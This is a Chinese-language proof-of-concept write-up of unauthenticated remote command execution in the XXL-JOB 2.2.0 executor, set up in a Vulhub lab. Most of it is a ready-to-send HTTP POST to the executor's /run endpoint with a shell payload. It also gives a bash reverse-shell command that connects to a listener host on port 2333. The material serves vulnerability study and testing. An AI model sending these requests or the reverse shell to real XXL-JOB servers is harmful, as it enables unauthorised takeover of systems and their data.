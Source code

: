 # XXL-JOB executor 未授权访问漏洞

## 漏洞描述

XXL-JOB是一个分布式任务调度平台，其核心设计目标是开发迅速、学习简单、轻量级、易扩展。现已开放源代码并接入多家公司线上产品线，开箱即用。XXL-JOB分为admin和executor两端，前者为后台管理页面，后者是任务执行的客户端。executor默认没有配置认证，未授权的攻击者可以通过RESTful API执行任意命令。

参考链接：

- https://mp.weixin.qq.com/s/jzXIVrEl0vbjZxI4xlUm-g
- https://landgrey.me/blog/18/
- https://github.com/OneSourceCat/XxlJob-Hessian-RCE

## 环境搭建

Vulhub执行如下命令启动2.2.0版本的XXL-JOB：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可查看到管理端（admin），访问`http://your-ip:9999`可以查看到客户端（executor）。

## 漏洞复现

向客户端（executor）发送如下数据包，即可执行命令：

```
POST /run HTTP/1.1
Host: your-ip:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "touch /tmp/awesome_poc",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

![image-20220302232736378](images/202203022327467.png)

`touch /tmp/awesome_poc`已成功执行：

![image-20220302232818916](images/202203022328972.png)

另外，低于2.2.0版本的XXL-JOB没有RESTful API，我们可以通过[Hessian反序列化](https://github.com/OneSourceCat/XxlJob-Hessian-RCE)来执行命令。

### 反弹shell

发送数据包，执行反弹shell命令：

```
"glueSource": "bash -i >& /dev/tcp/192.168.174.128/2333 0>&1 "
```

![image-20220302232933519](images/202203022329606.png)

监听2333端口，接收反弹shell：

![image-20220302232912024](images/202203022329112.png)